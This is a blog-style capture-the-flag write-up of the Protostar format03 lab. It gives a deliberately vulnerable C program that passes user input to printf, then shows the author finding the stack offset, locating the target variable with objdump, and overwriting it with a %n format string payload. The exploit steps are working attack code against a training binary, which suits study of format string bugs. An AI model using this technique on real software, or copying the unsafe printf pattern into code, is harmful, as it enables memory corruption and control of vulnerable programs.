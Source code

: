 ```yaml
---
layout: post
title: "Protostar format03 writeup"
tags: [protostar]
comments: false
---
```


We are given a source code with this challenge.

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

This looked the exact same as format02. 

offset
```
user@protostar:/opt/protostar/bin$ (python -c 'print "AAAA"+"%x."*20') | ./format3 
AAAA0.bffff5d0.b7fd7ff4.0.0.bffff7d8.804849d.bffff5d0.200.b7fd8420.bffff614.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.
target is 00000000 :(
user@protostar:/opt/protostar/bin$ (python -c 'print "AAAA%12$x"') | ./format3AAAA41414141
target is 00000000 :(

```

The offset is 12

address of target
```
user@protostar:/opt/protostar/bin$ objdump -t format3 | grep target
080496f4 g     O .bss   00000004              target
```

attack
```
user@protostar:/opt/protostar/bin$ python -c "print '\xf4\x96\x04\x08' + ' ' + '%1539100x.'*11 + '%n'" | ./format3 

you have modified the target :)
```

I think that the author of this challenge didn't want us to use the exact same way on how we did format02 so if I have time later on I will loook at it more in detail.